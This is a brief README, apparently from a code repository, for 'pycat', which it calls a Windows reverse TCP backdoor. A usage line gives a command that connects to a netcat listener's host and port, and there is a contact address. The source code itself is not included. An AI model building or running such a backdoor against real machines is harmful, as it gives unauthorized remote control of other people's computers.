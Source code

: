 # pycat
Windows Reverse TCP backdoor

Usage: python pycat.py --host netcatIP --port PORT

Contact: contato@bluesafe.com.br
